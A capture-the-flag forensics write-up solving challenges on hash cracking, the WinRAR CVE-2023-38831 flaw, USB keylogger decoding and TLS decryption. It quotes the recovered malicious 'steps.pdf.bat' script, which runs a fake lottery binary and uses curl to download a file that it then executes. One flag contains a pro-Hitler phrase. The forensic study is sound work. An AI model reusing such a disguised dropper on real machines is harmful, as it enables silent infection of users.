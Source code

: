 # ACCESS GRANTED

All I did was dump the hash dumps from memory images using `Volatility 3` and crack the NTLM hashes using `CrackStation`.
> FLAG -> BITSCTF{adolfhitlerrulesallthepeople}


# 0.69 DAY
Exploring the WinRAR vulnerability which executes steps.pdf.bat malicious file when it is extracted. 
If we search under MogamBro's user directory in the disk dump, we find MogamBro/AppData/Roaming/WinRAR.
And also under Downloads a zip folder Follow these instructions.

```
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
@echo off
lottery.exe & start chrome -incognito https://pastebin.com/mPvzn0AD & notepad.exe secret.png.enc & curl google.com -o steps.pdf & steps.pdf
exit
```
> FLAG -> BITSCTF{CVE-2023-38831}


# MOGAMBRO's GUILTY PLEASURE
When we open the YOU WON A LOTTERY eml file under Outlook it matches the downloads file `lottery.exe` which is just a mere distraction.

However the other link 50% discount on plushies is a `spam mimic link` and has hidden flag behind it.	

> FLAG -> BITSCTF{sp4m_2_ph1sh_U}

# I'M WIRED IN 

To obtain the flag, we need to analyze the user's keystroke history.

Upon inspecting the image, I discovered a `keylog.pcapng` file and a `key` file located in the Desktop directory of MogamBro. After extracting and analyzing the `pcapng` file, I identified USB traffic.

By researching USB packet analysis online, I came across a repository called **USBKeyTranslator**, which can be used to retrieve HID data from USB packets.


```
$ python USBkeysTranslator.py keylog.pcapng 

[+] Using filter "usbhid.data" Retrived HID Data is :

I haveebeen haakee  !!!
HELLMEE
BITSCTF{I_-7h1nk_th3y_4Re_k3yl0991ng_ME!}

 MogamBro
```

> FLAG -> BITSCTF{I_7h1nk_th3y_4Re_k3yl0991ng_ME!}

# ByPassing Transport Layer
I found TLS keys in the Desktop directory of MogamBro. By analyzing the PowerShell history in the AD1 image, it becomes evident that a series of commands were used to set up environment variables for logging SSL/TLS keys, capture network traffic, and save the data into the provided pcap file. These keys can be used to decrypt the TLS packets.  

Using Wireshark, I imported the key file into the pcap file to reveal the decrypted packets. This can be done by navigating to **Edit > Preferences > Protocols > TLS**, browsing for the key file, and applying it. Wireshark then displays the decrypted packets.  

While examining the pcap file, I observed HTTP/2 packets containing images, GIFs, and other files (many of which included inappropriate content). These files can be exported. Additionally, tools like `strings` can be used to extract the flag name.

```
strings ./* | grep -i "BITSCTF"
BITSCTF{5te4l1ng_pr1v47e_key5_ez:)}
```
> FLAG -> BITSCTF{5te4l1ng_pr1v47e_key5_ez:)}
